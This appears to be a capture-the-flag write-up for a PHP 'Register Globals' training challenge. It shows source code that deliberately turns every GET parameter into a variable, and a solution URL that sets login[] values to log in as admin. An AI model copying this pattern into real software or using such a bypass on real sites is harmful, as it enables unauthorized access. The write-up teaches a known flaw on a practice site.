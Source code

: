 # Register Globals

This challenge is a relict of old PHP times, where [register globals](http://php.net/manual/en/security.globals.php) has been enabled by default, which often lead to security issues.
Again, your job is to login as admin, and you are given the sourcecode as well as highlighted version.

```php
<?php
chdir('../../../../');
define('GWF_PAGE_TITLE', 'Training: Register Globals');
require_once('challenge/html_head.php');
if (false === ($chall = WC_Challenge::getByTitle(GWF_PAGE_TITLE))) {
        $chall = WC_Challenge::dummyChallenge(GWF_PAGE_TITLE, 2, 'challenge/training/php/globals/index.php');
}
$chall->showHeader();
 
GWF_Debug::setDieOnError(false);
GWF_Debug::setMailOnError(false);
 
# EMULATE REGISTER GLOBALS = ON
foreach ($_GET as $k => $v) { $$k = $v; }
 
 
# Send request?
if (isset($_POST['password']) && isset($_POST['username']) && is_string($_POST['password']) && is_string($_POST['username']) )
{
        $uname = mysql_real_escape_string($_POST['username']);
        $pass = md5($_POST['password']);
        $query = "SELECT level FROM ".GWF_TABLE_PREFIX."wc_chall_reg_glob WHERE username='$uname' AND password='$pass'";
        $db = gdo_db();
        if (false === ($row = $db->queryFirst($query))) {
                echo GWF_HTML::error('Register Globals', $chall->lang('err_failed'));
        } else {
                # Login success
                $login = array($_POST['username'], (int)$row['level']);
        }
}
 
if (isset($login))
{
        echo GWF_HTML::message('Register Globals', $chall->lang('msg_welcome_back', array(htmlspecialchars($login[0]), htmlspecialchars($login[1]))));
        if (strtolower($login[0]) === 'admin') {
                $chall->onChallengeSolved(GWF_Session::getUserID());
        }
}
else 
{
?>
<form action="globals.php" method="post">
<table>
<tr>
        <td><?php echo $chall->lang('th_username'); ?>:</td>
        <td><input type="text" name="username" value="" /></td>
</tr>
<tr>
        <td><?php echo $chall->lang('th_password'); ?>:</td>
        <td><input type="password" name="password" value="" /></td>
</tr>
<tr>
        <td></td>
        <td><input type="submit" name="send" value="<?php echo $chall->lang('btn_send'); ?>" /></td>
</tr>
</table>
</form>
<?php
}
 
# EMULATE REGISTER GLOBALS = OFF
foreach ($_GET as $k => $v) { unset($$k); }
 
require_once 'challenge/html_foot.php';
?>
```
** Warning This feature has been DEPRECATED as of PHP 5.3.0 and REMOVED as of PHP 5.4.0.**

## Solution

http://www.wechall.net/challenge/training/php/globals/globals.php?login[]=admin&login[]=123











